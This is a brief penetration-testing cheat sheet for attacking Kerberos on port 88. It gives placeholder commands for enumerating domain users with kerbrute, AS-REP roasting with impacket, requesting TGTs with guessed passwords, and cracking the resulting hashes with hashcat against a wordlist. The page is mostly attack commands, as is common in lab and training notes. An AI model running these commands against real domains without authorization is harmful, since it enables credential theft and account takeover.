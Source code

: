 # KRB 88

{% hint style="info" %}
If error KRB\_AP\_ERR\_SKEW happen:

{% code overflow="wrap" %}
```bash
timedatectl set-ntp false
ntpdate <IP>
```
{% endcode %}
{% endhint %}

### **Enum User**

```bash
kerbrute userenum -d <Domain> --dc <IP DC> <LIST>
```

### **AspeRoasting**

```bash
impacket-GetNPUsers '<NAME DOMAIN>/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```

### Kerberoasting

[kerberoasting.md](../windows/active-directory/exploitation-abuse/kerberoasting.md "mention")

### **TGT BruteForce**

```bash
impacket-getTGT '<DOMAIN>/<USERS>:<PWD>'
```

```bash
export KRB5CCNAME=..../user.chace
```

### **CRACK KRB5 HASH**

```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

